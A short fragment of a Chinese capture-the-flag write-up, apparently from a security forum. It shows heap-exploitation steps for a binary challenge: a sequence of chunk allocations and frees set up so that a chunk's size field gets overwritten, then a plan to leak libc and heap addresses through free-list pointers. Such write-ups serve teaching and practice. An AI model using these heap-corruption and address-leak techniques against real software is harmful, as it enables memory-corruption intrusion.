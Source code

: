 ### 详细流程

```plain
add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3) //因为后面"chunk4->size"会被覆盖低位,所以这里只能为0x100
delete(1) //这里要先释放后申请的chunk,不然程序不会打印(不知道原因)
```

[![](assets/1701612371-a82145a765bc33d1aa6aa5f9de0ba9bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151710-4b4d2f38-17df-1.png)  
因为这个题目比较特殊，所以直接利用fd指针来泄露libc\_base 和 heap\_addr

[![](assets/1701612371-f2fe7b45e6e9eceffbf0026c181f00cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151718-506e02b2-17df-1.png)
